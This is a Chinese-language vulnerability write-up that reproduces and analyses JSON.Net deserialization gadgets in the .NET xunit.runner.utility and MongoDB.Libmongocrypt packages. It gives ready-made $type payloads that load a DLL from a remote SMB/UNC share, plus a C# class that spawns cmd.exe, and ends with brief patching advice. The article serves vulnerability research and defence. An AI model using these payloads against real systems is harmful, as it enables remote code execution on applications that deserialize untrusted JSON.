
Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

- - -

# Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

## 一、Xunit1Executor

Xunit.Net 是一款 .NET 平台免费开源的单元测试框架，常用于并行测试和数据驱动测试。目前支持 .Net Framework、.Net Core、.Net Standard、UWP、Xamarin 等平台。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，下面我们将详细介绍漏洞原理及复现过程。

### 漏洞复现

xunit 组件可以在 Nuget 上获取，打开项目包管理器，浏览名为“xunit.runner.utility”的包，点击安装即可。接着使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```bash
{
    '$type':'Xunit.Xunit1Executor, xunit.runner.utility.net',
    'useAppDomain':true,
    'testAssemblyFileName':'\\192.168.101.86\\Poc\\xunit.dll'
}
```

上述代码通过远程SMB协议建立主机之间的通信后，再加载基于C#实现的托管xunit.dll文件，而xunit.dll实现上需要Executor类

```bash
public class Executor
    {
        public Executor(string poc)
        {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe");
            Process proc = new Process();
            proc.StartInfo = psi;
            proc.Start();
        }
    }
```

最后调用 JSON.Net 反序列化执行，虽然抛出异常，但不影响触发命令执行，如图所示。

[![](assets/1706959594-cc64dbbd650f067f2f7df6fd237ffb06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123928-b954547a-bb3b-1.png)

### 漏洞分析

反编译打开 xunit.runner.utility.dll 分析源代码，快速定位到 Xunit1Executor 类，该类创建对象时会调用默认的构造方法，

[![](assets/1706959594-262fa1a4a5cd8adf7db83dd85f4cc3b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123945-c3ae291e-bb3b-1.png)

图中 Xunit1Executor 构造方法创建一个新的 AppDomain 用来加载单元测试用例提供的.NET 程序集。程序集的路径由 Xunit1Executor.GetXunitAssemblyPath 方法获取，如图所示。

[![](assets/1706959594-220bf6f5a580691f859fba86d70e9e4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123955-c973d8d0-bb3b-1.png)

从代码实现上可以看出加载的文件名为“xunit.dll”，因此我们在反序列化构建 Payload 时也需要提供同名的 dll 文件。接着构造方法里使用 CreateObject 方法从 xunit.dll 程序集中创建类型为 Xunit.Sdk.Executor 的对象

```bash
this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[]
{
    testAssemblyFileName
});
```

跟进 CreateObject 方法的定义，发现是定义在 IAppDomainManager 接口中，AppDomainManager\_AppDomain 类实现了 IAppDomainManager 接口，也重写了 CreateObject 方法，如图所示。

[![](assets/1706959594-22efad294e8965dfbb2e8c0008cf8f74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124009-d23b28a6-bb3b-1.png)

内部还是调用了 AppDomain.CreateInstanceAndUnwrap 方法在 AppDomain 中创建了 Xunit.Sdk.Executor 对象，AppDomain.CreateInstanceAndUnwrap 方法可以通过反射程序集的方式创建对象从而执行命令。

## 二、MongoDB

MongoDB.Libmongocrypt 是 MongoDB 的一个库，集成于 MongoDB .NET 版本的驱动程序，常用于提供端到端的加密支持，达到保护 MongoDB 数据在传输和存储时的安全性。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，

### 漏洞复现

这个组件包可以在 Nuget 上获取，打开项目包管理器，浏览名为“MongoDB.Libmongocrypt”的包，点击安装即可。我们使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```bash
{
    '$type':'MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary, MongoDB.Libmongocrypt, PublicKeyToken=null',
    'path':'\\192.168.101.86\\Poc\\calc.dll'
}
```

上述代码通过远程 SMB 协议建立主机之间的通信后，再加载基于 C++ 实现的非托管 calc.dll 文件，最后 JSON.Net 反序列化执行成功触发命令执行

[![](assets/1706959594-cc2eaeb0dbaac7a545ebb4d50854ddec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124021-d934f344-bb3b-1.png)

### 漏洞分析

反编译打开 MongoDB.Libmongocrypt.dll 分析源代码，快速定位到 WindowsLibrary 类，该类创建对象时会调用其构造方法并传入一个字符型参数 path，如图所示。

[![](assets/1706959594-a3db6f7811c1d200a2b96b95ac5ee92a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124033-e01bcaca-bb3b-1.png)

我们观察到内部通过 LibraryLoader.WindowsLibrary.LoadLibrary 方法加载参数 path，查看 LoadLibrary 的声明发现就是调用 Windows API LoadLibrary 函数，因此可以执行非托管 dll，如图所示

[![](assets/1706959594-0a366f1ed0e82e291d788b91bd70cfe8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124043-e5fa87a6-bb3b-1.png)

至此两个.NET 组件出现的漏洞分析完毕，

## 修复建议

以下是一些修复.NET 开源组件漏洞的建议和防御措施。持续关注各个开源组件的安全更新和发布，及时升级到最新的版本。开源社区通常会修复漏洞并发布更新，使用最新版本能够有效地防范已知漏洞。  
针对开源组件提供的配置项，仔细审查并按照最佳实践进行安全配置。避免过于开放的默认设置，尽可能限制组件的权限和功能范围，减少潜在攻击面。

## 小结

本文详细介绍了 2 个.NET 开源组件的安全漏洞，这些漏洞的存在可能导致严重的安全风险，包括远程代码执行等。因此，开发者在使用这些组件时需保持高度警惕，采取积极的安全措施来降低潜在风险。建议开发者密切关注组件的安全公告，及时升级到修复漏洞的最新版本，并按照最佳实践进行安全配置和使用。此外，定期进行安全审查，确保项目中使用的组件不受已知漏洞的影响，有助于提高应用系统的整体安全性。
